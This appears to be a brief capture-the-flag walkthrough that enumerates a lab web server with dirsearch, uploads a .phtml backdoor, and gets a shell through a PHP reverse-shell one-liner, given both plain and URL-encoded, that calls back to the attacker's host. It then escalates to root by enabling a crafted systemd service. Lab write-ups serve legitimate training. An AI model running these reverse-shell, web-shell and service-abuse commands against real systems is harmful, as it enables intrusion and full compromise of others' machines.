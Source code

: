 ```zsh
python3 /root/dirsearch/dirsearch.py -u http://10.10.126.10:3333/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


```zsh
python3 /root/dirsearch/dirsearch.py -u http://10.10.126.10:3333/ -t 16 -r -e r -R 3
```
/internal/ -File Upload
/internal/uploads/ -Execute your backdoor. Ext - .phtml


```zsh
 php -r '$sock=fsockopen("10.11.11.238",443);exec("/bin/sh -i <&3 >&3 2>&3");'

```
URL ENCODE THE ABOVE and run it with cmd
```
http://10.10.126.10:3333/internal/uploads/simple-backdoor.phtml?cmd=php%20-r%20%27%24sock%3Dfsockopen(%2210.11.11.238%22%2C443)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27

```
Upload linpeas.sh, run it.

Made a fake service known as rooter.service
chmod 777 rooter.service

```bash
/bin/systemctl enable /tmp/rooter.service
```
```bash
/bin/systemctl start rooter
```